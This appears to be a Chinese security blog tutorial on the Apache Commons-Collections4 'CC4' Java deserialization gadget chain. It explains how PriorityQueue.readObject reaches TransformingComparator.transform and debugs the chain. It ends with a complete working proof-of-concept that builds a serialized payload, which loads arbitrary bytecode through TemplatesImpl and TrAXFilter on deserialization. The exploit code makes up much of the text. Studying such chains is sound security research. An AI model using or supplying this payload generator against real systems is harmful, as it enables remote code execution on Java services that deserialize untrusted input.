







这条链子的包使用的是Commons-Collections4.0

maven引用

```java
<dependency>  
 <groupId>org.apache.commons</groupId>  
 <artifactId>commons-collections4</artifactId>  
 <version>4.0</version>  
</dependency>
```

## 链子总体分析

CC4不使用`InvokerTransformer`类，然后因为命令执行还是需要调用`transform()`，这边需要再找调用了`transform()`的类，这里CC4的作者使用的是`TransformingComparator`类。里面有`compare`方法调用了`transform`方法。


然后找调用了`compare`方法的地方，Find Usages找到在`java.util.PriorityQueue`下存在一个`siftDownUsingComparator`方法，里面调用了`compare()`


然后继续找，在同一个类中的`siftDown`方法调用了`siftDownUsingComparator()`



继续向上找，一个`heapify`方法调用了`siftDown()`



而在这个类本身的`readObject()`中，最后的位置调用了一次`heapify()`


## 利用链结合

这里最终利用依旧是通过通过反射去修改值，动态加载字节码实现命令执行。可参考CC3的动态加载字节码命令执行。

这里先贴出后半部分执行命令的EXP

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections4.functors.ChainedTransformer;  
import org.apache.commons.collections4.functors.InstantiateTransformer;  
  
import javax.xml.transform.Templates;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
   
public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 		Class templatesClass = templates.getClass();  
	 	Field nameField = templatesClass.getDeclaredField("_name");  
 		nameField.setAccessible(true);  
 		nameField.set(templates,"Drunkbaby");  
  
 		Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 		bytecodesField.setAccessible(true);  
 		byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 		byte[][] codes = {evil};  
 		bytecodesField.set(templates,codes);  
  
 		Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 		tfactoryField.setAccessible(true);  
 		tfactoryField.set(templates, new TransformerFactoryImpl());  
 //    	templates.newTransformer();  
  
 		InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});  

 		instantiateTransformer.transform(TrAXFilter.class);  
 }  
}
```

这里需要CC4与CC3不同的地方在于前半部分调用`transform()`的链子。在CC3中，可以沿用CC1和CC6的前半部分，这里CC4沿用了CC3的后半部分。



这里主要是想要调用`chainedTranformer`的`transform`方法

然后看`TransformingComparator`的构造方法，发现是可以直接传入transformer的，所以这里直接实例化一个对象，传入`chainedTranformer`


然后`PriorityQueue`的构造方法同上，也是可以直接赋值的。



上面两步连接起来。

```java
ransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer);
PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
```

逻辑上是到这里。然后看看序列化和反序列化成不成功。

结果是没有成功执行，下面断点调试查看下到哪里断了。

到这里发现是直接跳出了循环，没有执行到`siftDown()`


关于`>>>`移位运算符，需要了解下原码补码和反码，移位是在这个基础上进行移位的。直观一点可以直接使用IDEA中的`Evaluate`


具体解释：

此时的size=0，那么(size>>>1)就是0，在那边已经计算出来的，这个时候真正的for循环应该是

```java
for (int i = -1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

循环都进不去，如果是size=1呢，还是一样。


只有当size>=2时，才可以进入循环



这个时候的for循环就是

```java
for (int i = 0; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

就能进入循环，add参数需要在POC中添加

```java
priorityQueue.add(1);
priorityQueue.add(2);
```

已经可以成功了



## 问题解决

但是有一个问题，就是在Debug的时候直接执行了命令，并且报错。

在CC6中存在一个类似的问题，这里是在执行 `priorityQueue.add(1)` 这个语句的时候，它内部会自动进行 `compare()` 方法的执行，然后调用 `transform()`。画了个图，可以自行跟踪查看



解决办法就是`chainedTransformer`的值先不传给`transformingComparator`，等走过`add()`在使用反射进行赋值。

```java
Class c = transformingComparator.getClass();
Field transformingField = c.getDeclaredField("transformer");
transformingField.setAccessible(true);
transformingField.set(transformingComparator, chainedTransformer);
```

执行成功，调式也没问题


完整POC

```java
package com.common.cc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC4 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        TemplatesImpl templates = new TemplatesImpl();
        Class cc3 = templates.getClass();
        Field nameField = cc3.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "sfabc");
        Field bytecodesField = cc3.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D://Test//Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field tfactoryField = cc3.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});

        Transformer[] transformers = {new ConstantTransformer(TrAXFilter.class), instantiateTransformer};
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //instantiateTransformer.transform(TrAXFilter.class);
        //chainedTransformer.transform(1);
        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Class c = transformingComparator.getClass();
        Field transformingField = c.getDeclaredField("transformer");
        transformingField.setAccessible(true);
        transformingField.set(transformingComparator, chainedTransformer);


        //        serialize(priorityQueue);
        unserialize("ser.bin");


    }


    public  static  void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public  static  Object  unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
            return obj;
            }
            }
```